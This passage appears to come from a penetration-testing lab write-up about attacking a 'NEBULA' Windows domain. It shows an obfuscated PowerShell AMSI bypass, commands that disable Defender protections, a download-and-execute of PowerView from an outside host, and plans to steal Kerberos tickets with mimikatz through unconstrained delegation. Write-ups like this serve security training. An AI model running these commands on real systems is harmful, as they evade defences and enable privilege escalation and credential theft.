 ```sh
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> S`eT-It`em ( 'V'+'aR' + 'IA' + ('b'+'lE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]("{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ("1Q2U"+"zX") -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
PS C:\Windows\system32> Set-MpPreference -DisableBehaviorMonitoring $true
PS C:\Windows\system32> Set-MpPreference -DisableIOAVProtection $true
PS C:\Windows\system32> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
NEBULA\devmanager
NEBULA\Domain Admins
NEBULA\prodadmin
NEBULA\serviceacct
The command completed successfully.

PS C:\Windows\system32> whoami
nebula\devmanager
PS C:\Windows\system32>
```

with local admin rights now applied on the production server, i'm now able to push forward to attack the domain controller!

## target 5

### unconstrained delegation

using the `Get-NetComputer` cmdlet, i can list computers with unconstrained delegation enabled.

```sh
Get-NetComputer -unconstrained
```

```sh
PS C:\Windows\system32> iex (iwr http://172.16.10.1/powerview.ps1 -usebasicparsing)
PS C:\Windows\system32> Get-NetComputer -Unconstrained
nebula-dc.nebula.cosmos.local
prodsrv.nebula.cosmos.local
```

unconstrained delegation allows users to access any services in a domain, meaning i can run `mimikatz` to export Kerberos tickets from the `Prodsrv` machine to a different machine.

first, i'll create a directory that will house the tickets.
